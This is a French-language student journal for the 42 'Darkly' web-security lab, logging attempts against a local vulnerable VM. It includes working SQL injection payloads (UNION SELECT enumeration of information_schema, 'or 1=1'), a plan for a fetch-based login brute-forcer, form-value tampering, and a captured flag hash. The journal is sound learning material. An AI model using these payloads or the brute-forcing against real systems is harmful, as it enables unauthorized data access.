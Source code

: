 # darkly
projet de web secu de 42


les faille que je prevois de croiser :
- injection sql sur une recherche 
- injection sql sur login
- injeciton de donner sur l upload dimage
- injection js
- injection php (j ai croiser ca sur internet mais je ne suis pas sur de ocomment ca marche)
- manipulation de cookie

# 29novembre :
je comprend comment lancer la machine grace a ce lien que de sympathique gens m on donner sur discord 
https://github.com/AdonisEnProvence/Darkly#setup
je me rend compte que les recherche de photos et d user renvois des erreurs sql 
il y a probablement moyen d y injecter des choses
je testes des trucs

# 30 novembre : 
je test plein de solution dinjeciton sql et une trouver sur se stie touche enfin 
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
 ## 0 UNION ALL SELECT NULL,version()-- 
c est top ca renvoi la version qui est : 5.5.64-MariaDB-1ubuntu0.14.04.1
 ## 0 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
me donne les nom de database suivant :
- information_schema
- Member_Brute_Force
- Member_Sql_Injection
- Member_guestbook
- Member_images
- Member_survey

0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM images.TABLES --

je ne comprend pas les member machin ils ne retourne rien
## 0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES --
je recupere plein de truc mais je ne sait pas quoi en faire

USER_STATISTICS

 0 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='USER_STATISTICS'--

## 0 UNION ALL SELECT NULL,concat(column_name) FROM guestbook.COLUMNS --
me donne toute les columns existante
visiblement http://192.168.56.101/index.php?page=member
et http://192.168.56.101/index.php?page=searchimg
n on pas le meme fonctionnement

# 1 decembre:

## 0 or 1 = 1;

me retourn des infos bien plus interessante dans le user .

je supose que la query sur le serveur ressemble a 

### SELECT * FROM user WHERE user_id = (what i typing);


en parallel j ai tester un outil qui etais sencer brut force les mdp mais il me dit que tout les mot de passe de ca liste sont bon .... 


je pensse que j ai foirer un truc donc je vais fair mon propre outil </br>
il me suiffit de remplacer </br>
http://192.168.56.101/?page=signin&username=d&password=d&Login=Login# </br>
par les username et password de mon choix (je crois je ne comprend pas l interet de Login) </br>
j ai essayer de le mettre a true mais rien ne se passe </br>

## 1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema = database(); 
me renvoi user je ne suis pas sur de situer la difference entre concat et gorup concate


# 15 decembre 

j ai mit en place un moyen avec fetch de brutforce le site

arriver tongyu qui me montre une super faile coter http://192.168.56.101/index.php?page=survey#
il suffit de changer les valeur dans les option et on optien le flags :
``` 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa```
izi
